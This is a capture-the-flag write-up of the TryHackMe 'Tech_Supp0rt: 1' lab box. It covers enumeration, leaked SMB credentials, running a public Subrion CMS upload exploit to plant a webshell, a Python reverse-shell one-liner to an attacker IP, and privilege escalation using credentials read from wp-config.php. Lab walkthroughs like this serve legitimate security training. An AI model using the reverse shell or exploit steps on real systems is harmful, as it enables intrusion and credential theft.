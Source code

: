 # THM - Tech_Supp0rt: 1

#### Ip: 10.10.199.225
#### Name: Tech_Supp0rt: 1
#### Rating: Easy

----------------------------------------------------------------------

tech.png

```text
Hack into the scammer's under-development website to foil their plans.
```

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also user the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/THM/Tech_Supp0rt:_1]
└─$ sudo nmap -p-  --min-rate 10000 10.10.199.225                     
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-09 16:03 CDT
Nmap scan report for 10.10.199.225
Host is up (0.13s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 8.86 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/THM/Tech_Supp0rt:_1]
└─$ sudo nmap -sC -sV -T4 10.10.199.225 -p 22,80,139,445              
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-09 16:03 CDT
Nmap scan report for 10.10.199.225
Host is up (0.12s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 108af572d7f97e14a5c54f9e978b3d58 (RSA)
|   256 7f10f557413c71dbb55bdb75c976305c (ECDSA)
|_  256 6b4c23506f36007ca67c1173c1a8600c (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: TECHSUPPORT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -1h49m58s, deviation: 3h10m30s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-08-09T21:03:43
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: techsupport
|   NetBIOS computer name: TECHSUPPORT\x00
|   Domain name: \x00
|   FQDN: techsupport
|_  System time: 2023-08-10T02:33:45+05:30

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.28 seconds
```

Heading to the site we find an Apache default landing page:

site.png

We can use Feroxbuster to fuzz for directories:

ferox.png

Looks like we've got a `/test` directory, as well as several WordPress directories. 

Heading to http://10.10.199.225/test we find an extremely spammy page:

test.png

Before enumerating HTTP any further, lets check out SMB to see if we can find anything.

I'll see what shares we can access using CrackMapExec:

cme.png

Looks like there's a `websvr` share we can access. To do this I'll use smbclient:

smb.png

Pulling back this file to my machine we find a todo list and some credentials:

enter.txt

This password appears to be encrypted. GOing off the hin in the note I'll head to https://gchq.github.io/CyberChef/ and use the 'Magic' feature to decode this:

chef.png

Based on the note we can navigate to http://10.10.199.225/subrion/panel/ and login with the credentials:

Now that we have working credentials, I searched for Subrion version 4.2.1 exploits and found: https://www.exploit-db.com/exploits/49876

Looks like the exploit logs in with the user provided credentials and uploads a webshell. Lets give it a shot:

### Exploitation

```text
┌──(ryan㉿kali)-[~/THM/Tech_Supp0rt:_1]
└─$ python subrion_exploit.py -u http://10.10.199.225/subrion/panel/ --user admin --passw Scam2021
[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 

[+] Trying to connect to: http://10.10.199.225/subrion/panel/
[+] Success!
[+] Got CSRF token: a52ERKms3Eqillk50kRWwd1iPFgJmxhpCTOdVI4B
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: jsniraeesrslatp

[+] Trying to Upload Webshell..
[+] Upload Success... Webshell path: http://10.10.199.225/subrion/panel/uploads/jsniraeesrslatp.phar 

$ whoami
www-data

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Nice, that worked!

Lets use a Python one-liner to get a proper shell rather than using this pseudo shell:

We can head to revshells.com and grab the script:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.61.45",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

stable.png


Browsing around the box I found `/var/www/html/wordpress/wp-config.php` which had some credentials in it:

```text
/** MySQL database username */
define( 'DB_USER', 'support' );

/** MySQL database password */
define( 'DB_PASSWORD', 'ImAScammerLOL!123!' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

```

We can see who may be using this password and then use the `su` command:

```text
www-data@TechSupport:/var/www/html/wordpress$ cat /etc/passwd | grep bash
cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
scamsite:x:1000:1000:scammer,,,:/home/scamsite:/bin/bash
www-data@TechSupport:/var/www/html/wordpress$ su scamsite
su scamsite
Password: ImAScammerLOL!123!

scamsite@TechSupport:/var/www/html/wordpress$ whoami
whoami
scamsite
```

Cool, that worked. We can now run `sudo -l` to see what user scamsite can run with eleveated permissions:

sudo.png

We can now head to https://gtfobins.github.io/gtfobin and search for iconv:

gtfo.png

Lets use this to read the root.txt flag:

root_flag.png

Thanks for following along!

-Ryan

----------------------------------------------------

